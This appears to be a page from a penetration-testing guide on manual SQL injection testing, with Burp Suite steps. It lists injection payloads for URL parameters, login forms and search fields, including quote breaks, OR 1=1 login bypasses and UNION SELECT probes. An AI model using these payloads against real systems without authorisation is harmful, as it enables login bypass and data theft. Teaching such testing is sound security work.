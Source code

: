### Goal
Manually verify vulnerabilities and test areas automated tools might miss.

### 5.1: Basic SQL Injection Payloads

**Test in URL parameters:**
```
Original: https://target.com/product?id=1

Test payloads:
https://target.com/product?id=1'
https://target.com/product?id=1"
https://target.com/product?id=1'--
https://target.com/product?id=1' OR '1'='1
https://target.com/product?id=1' AND '1'='2
```

**What to look for:**
- Error messages (SQL syntax errors)
- Different page behavior
- Blank pages
- Delayed responses

### 5.2: Login Form Testing

**Username field payloads:**
```
admin'--
admin'#
' OR 1=1--
' OR '1'='1
admin' OR '1'='1'--
') OR ('1'='1
```

**Password field:**
```
password' OR '1'='1
' OR 1=1--
```

### 5.3: Search Form Testing

```
test'
test"
test' OR '1'='1'--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```

### 5.4: Testing with Burp Suite

**Steps:**
1. Intercept request in Burp Proxy
2. Send to **Repeater** (Ctrl+R)
3. Modify parameters with payloads
4. Compare responses
